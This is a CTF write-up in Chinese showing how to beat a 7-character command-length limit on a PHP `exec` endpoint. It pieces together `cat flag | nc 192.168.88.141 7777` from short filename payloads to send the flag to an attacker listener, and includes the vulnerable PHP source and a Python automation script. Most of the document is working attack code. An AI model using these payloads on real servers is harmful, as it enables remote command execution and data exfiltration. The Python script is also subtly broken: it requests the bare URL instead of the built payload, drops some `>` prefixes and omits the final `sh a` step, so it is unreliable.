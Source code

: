 ### 长度为7进行绕过

```php
<?php
highlight_file(__FILE__);
error_reporting(E_ALL);
function filter($argv){
    $a = str_replace("/\*|\?|/","=====",$argv);
    return $a;
}
if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 7) {
    exec(filter($_GET['cmd']));
} else  {
    echo "flag in local path flag file!!";
}
```

```shell
期望执行的命令
cat flag | nc 192.168.88.141 7777 # exec没有回显
kail地址192.168.88.141,监听端口7777
cat flag展示内容
再通过nc反弹
提交到192.168.88.141:7777
```

```shell
?cmd=>7777
?cmd=>\ \\
?cmd=>141\\
?cmd=>88.\\
?cmd=>168.\\
?cmd=>192.\\
?cmd=>c\ \\
?cmd=>\|n\\
?cmd=>flag\\
?cmd=>t\ \\
?cmd=>ca\\
?cmd=ls -t>a
?cmd=sh a
```

```py
#encoding:utf-8
import time
import requests
url=""
s=requests.session()
list=[
    '>7777',
    '>\ \\',
    '>141\\',
    '>88.\\',
    '>168.\\',
    '>192.\\',
    '>c\ \\',
    '\|n\\',
    'flag\\',
    't\ \\',
    'ca\\',
    'ls -t>a'
]
for i in list:
    time.sleep(1)
    payload=url + str(i)
    s.get(url)
```